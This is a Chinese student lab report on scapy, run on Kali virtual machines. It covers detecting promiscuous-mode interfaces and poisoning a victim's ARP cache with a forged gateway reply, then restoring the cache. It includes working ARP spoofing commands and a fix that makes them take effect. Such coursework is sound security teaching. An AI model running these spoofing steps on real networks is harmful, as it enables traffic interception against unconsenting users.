# 第四章实验报告

## 一、实验目的

熟悉scapy操作，实现简单伪造操作

## 二、实验环境

virtual box

linux-kali

## 三、实验内容

### 拓扑结构

网络中节点基本信息如下：



- 攻击者主机：

  08:00:27:0e:34:8d/eth0

  172.16.111.111

- 受害者主机：

  08:00:27:0b:01:6d/eth0

  172.16.111.136

- 网关：

  09:00:27:8a:e8:3d/enp0s9

  172.16.111.1

  

### 实验准备

#### 安装scapy

在攻击者主机上安装scapy

```
sudo apt update && sudo apt install python3 python3-pip

pip3 install scapy[complete]
```


### 实验一：检测局域网中的异常终端


在受害者主机上检查网卡的「混杂模式」是否启用

```
ip link show eth0
```




在攻击者主机上开启scapy

```
sudo scapy
```




在 scapy 的交互式终端输入以下代码回车执行

```
pkt = promiscping("172.16.111.136")
```




回到受害者主机上开启网卡的『混杂模式』
上述输出结果里没有出现 PROMISC 字符串
手动开启该网卡的「混杂模式」

```
sudo ip link set eth0 promisc on
```


再次检查网卡混杂模式是否启用

```
ip link show eth0
```

此时会发现输出结果里多出来了 PROMISC 




回到攻击者主机上的 scapy 交互式终端继续执行命令

```
pkt = promiscping("172.16.111.136")
```




在受害者主机上手动关闭该网卡的「混杂模式」

```
sudo ip link set eth0 promisc off
```




### 实验二：手工单步“毒化”目标主机的arp缓存


构造一个 ARP 请求

```
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```





发送这个 ARP 广播请求

```
recved = srp(arpbroadcast, timeout=2)
```




接下来

伪造网关的 ARP 响应包
准备发送给受害者主机 172.16.111.136
ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址

```
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.136", hwdst="08:00:27:0e:34:8d")
```


发送上述伪造的 ARP 响应数据包到受害者主机

```
sendp(arpspoofed)
```




此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址。（但是实验结果开始并没有，可以通过在构造的arp伪装包前增加Ether（）来解决）




回到攻击者主机上的 scapy 交互式终端继续执行命令。

恢复受害者主机的 ARP 缓存记录
伪装网关给受害者发送 ARP 响应

```
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="09:00:27:8a:e8:3d", pdst="172.16.111.136", hwdst="08:00:27:0b:01:6d")
sendp(restorepkt1, count=100, inter=0.2)
```




此时在受害者主机上准备“刷新”网关 ARP 记录。

在受害者主机上尝试 ping 网关

```
ping 172.16.111.1
```

静候几秒 ARP 缓存刷新成功，退出 ping
查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录

```
ip neigh
```


## 四、实验问题及解决方法

攻击者发送伪造arp响应时，受害者arp缓存不更新，虽然显示伪装包发送，但可能并未成功。

.jpg)


可以通过在构造的arp伪装包前增加Ether（）来解决




## 五、参考资料

- [实验指南](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)